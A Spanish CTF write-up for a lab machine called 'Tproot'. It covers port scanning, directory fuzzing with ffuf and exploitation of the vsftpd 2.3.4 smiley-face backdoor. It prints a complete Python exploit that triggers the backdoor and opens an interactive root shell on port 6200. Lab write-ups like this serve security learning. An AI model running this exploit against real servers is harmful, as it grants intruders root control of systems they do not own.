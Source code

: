 ```yaml
---
description: '🧠Dificultad: Muy fácil | 🔓25/07/2025'
---
```


# Tproot

## Reconocimiento

Comenzamos con un escaneo de puertos con `nmap` :

<div align="left"><figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure></div>

Vemos que el login anónimo en el servidor FTP da fallo. El puerto 80 aloja un servidor web con la página por defecto de apache en el directorio raíz. Si le hacemos un listado de directorios, no encontramos nada relevante.

```bash
ffuf -w /usr/share/wordlists/SecLists-2025.2/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt:FUZZ -u http://$IPTARGET/FUZZ
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Si buscamos algún exploit para los puertos encontrados, vemos que existe uno para el puerto `ftp` :

<div align="left"><figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure></div>

Esta versión de `FTP` presenta una vulnerabilidad de manera que si introducimos un nombre de usuario en el login del `FTP`  terminado en `:)` , se abre una backdoor en el puerto 6200 (más [info](https://www.broadcom.com/support/security-center/attacksignatures/detail?asid=33416)).

## Ganando acceso

Utilicé un exploit hecho en `python`  con la librería `socket` :

```python
#!/usr/bin/python3

import socket
import argparse
import time
import sys

parser = argparse.ArgumentParser(description='vsftpd 2.3.4 backdoor exploit')
parser.add_argument('-host', dest='host', required=True, help='IP del objetivo')
args = parser.parse_args()

host = args.host
ftp_port = 21
shell_port = 6200

# Paso 1: Enviar usuario malicioso por FTP
print(f"[+] Conectando al FTP en {host}:{ftp_port}")
try:
    s = socket.create_connection((host, ftp_port), timeout=5)
    banner = s.recv(1024).decode()
    print(f"[+] Banner recibido: {banner.strip()}")
    
    s.sendall(b'USER backdoor:)\r\n')
    s.recv(1024)  # leer respuesta

    s.sendall(b'PASS cualquiercosa\r\n')
    s.recv(1024)
    s.close()
except Exception as e:
    print(f"[-] Error al conectar al FTP: {e}")
    sys.exit(1)

# Esperar a que se abra la shell
print("[*] Esperando a que se active la backdoor (puerto 6200)...")
time.sleep(2)

# Paso 2: Conectarse al puerto 6200
print(f"[+] Intentando conexión a {host}:{shell_port}")
try:
    shell = socket.create_connection((host, shell_port), timeout=5)
    print("[+] ¡Conectado! Shell activa. Puedes escribir comandos. Usa 'exit' para salir.\n")

    while True:
        cmd = input("$ ")
        if cmd.strip().lower() == "exit":
            break
        shell.sendall((cmd + "\n").encode())
        time.sleep(0.5)
        data = shell.recv(4096)
        print(data.decode(errors='ignore'))

    shell.close()
except Exception as e:
    print(f"[-] No se pudo conectar al puerto 6200: {e}")
    sys.exit(1)
```

Al ejecutar el exploit, ganamos acceso con una shell como `root` :

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
